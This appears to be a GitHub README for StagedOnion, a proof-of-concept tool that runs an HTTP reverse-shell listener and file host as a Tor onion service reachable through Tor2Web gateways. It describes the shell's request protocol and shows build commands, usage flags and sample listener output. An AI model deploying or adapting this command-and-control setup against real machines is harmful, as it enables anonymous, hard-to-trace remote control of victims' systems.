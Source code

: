 # StagedOnion
A PoC for hosting reverse shells and files through the Tor network, accessable even without Tor installed on the target machine. Agents interact with the hidden service through Tor2Web gateways, which provide equal levels of anonymity for the listener while also being accessible by hosts without a Tor installation. 

Interacting with the reverse HTTP shell is straightforward:
1. Issue a `GET` request to '/' to get the command
2. `POST` the output of the command to '/' in the request body

For convenience, a Powershell script (`agent.ps1`) and a Bash script (`agent.sh`) are included as working examples.

NOTE: The implementation of the HTTP reverse shell is very unstable through Tor, with latency playing a considerable part. Expect to wait ~15 seconds for command execution and output. Also, the Tor2Web gateways love to break and show their homepage instead of completing the connection to the reverse shell for seemingly random reasons (I cannot for the life of me figure out why).

## Prerequisites
A working Tor installation is needed in order to start and register the hidden service.

## Installation
```
git clone https://github.com/jamesfoxdev/StagedOnion.git
cd StagedOnion
go build .
./StagedOnion -h
```

## Usage
```
StagedOnion | @jamesfoxdev | github.com/jamesfoxdev
A PoC for creating anonymous reverse shells and file hosting, accessible from computers without Tor installed.
  -clear
        Clear the working directory of old temporary Tor files
  -dir string
        A directory to serve
  -shell
        Start the reverse HTTP listener
```

## Examples
### Start the reverse HTTP listener
```
./StagedOnion --shell
```
Example output:
```
StagedOnion | @jamesfoxdev | github.com/jamesfoxdev
[*] Starting and registering onion service, please wait a couple of minutes...
[*] Listener started at http://pxpsa4slrlkimpygyndqat6zt7aobubs2dsat3dhnrmdkownitfvohid.onion
[*] Potential entrypoints are:
	 http://pxpsa4slrlkimpygyndqat6zt7aobubs2dsat3dhnrmdkownitfvohid.onion.pet
	 http://pxpsa4slrlkimpygyndqat6zt7aobubs2dsat3dhnrmdkownitfvohid.onion.ws
	 http://pxpsa4slrlkimpygyndqat6zt7aobubs2dsat3dhnrmdkownitfvohid.tor2web.info
[*] Waiting for shell connection...
```
Upon receiving a shell:
```
...
[+] Received reverse shell connection!

shell> 
```

### Host the current working directory
```
./StagedOnion --dir .
```
Example output:
```
StagedOnion | @jamesfoxdev | github.com/jamesfoxdev
[*] Starting and registering onion service, please wait a couple of minutes...
[*] Listener started at http://hotbxrhohncjufrynz4q4ompakkpifvv3s3etqo3femtq5d5dwadyaqd.onion
[*] Potential entrypoints are:
	 http://hotbxrhohncjufrynz4q4ompakkpifvv3s3etqo3femtq5d5dwadyaqd.onion.pet
	 http://hotbxrhohncjufrynz4q4ompakkpifvv3s3etqo3femtq5d5dwadyaqd.onion.ws
	 http://hotbxrhohncjufrynz4q4ompakkpifvv3s3etqo3femtq5d5dwadyaqd.tor2web.info
[*] Serving directory '.'
```

## Roadmap
- Embeded the Tor process in the Go binary such that a Tor installation is not needed on the client or server
- Metasploit reverse HTTP intergration
- Find more working Tor2Web extensions for redundancy

## Licence
MIT
